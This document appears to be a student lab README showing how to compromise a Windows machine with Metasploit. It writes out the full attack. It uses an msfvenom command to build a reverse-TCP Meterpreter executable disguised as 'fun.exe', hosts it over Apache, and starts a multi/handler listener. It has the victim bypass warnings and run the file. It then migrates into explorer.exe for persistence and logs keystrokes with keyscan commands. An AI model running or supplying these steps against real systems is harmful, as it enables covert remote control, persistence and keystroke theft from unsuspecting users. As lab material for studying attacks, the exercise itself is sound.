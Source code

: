 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2024-04-29 204511](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/08197f7d-0ab9-4a3b-8df9-c7c70e83e41d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2024-04-29 204544](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5c084377-09b8-4430-95f1-bb952e3d3b5c)


#### copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0fed7549-d5a6-445e-8c94-ae3a6294d050)



#### Start apache server sudo systemctl apache2 start

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0e80fcac-7d4b-405c-8f00-1a70421fca3b)


#### Check the status of apache2
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/963f37a2-9f73-4b9d-aa9f-13c1432613f3)

Invoke msfconsole:
## OUTPUT:

![Screenshot 2024-04-29 204808](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/970ca074-b231-40ee-bf3f-81a65b6c534c)




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Screenshot 2024-04-29 205928](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b58e80cf-6c8c-4917-9dfb-5c0b18626b3f)

```
/*
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
*/
```

![Screenshot 2024-04-29 210014](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/eddeb6f2-f369-4e62-8d5f-f84094478776)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/a052e59c-d560-4502-bb60-8ee7dd7b89e2)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b9906630-9108-487d-8073-3e2a560d8483)


On kali give the command exploit
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/6a1e5be1-a317-492a-906a-43c773a37fe9)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/2f7d996b-2036-4ff2-a8fe-2063d7858eb1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/619ff40d-cba1-4749-a23c-5d1c624f2dff)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5f0af326-0a94-4e9d-8fed-fbb221ef9634)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
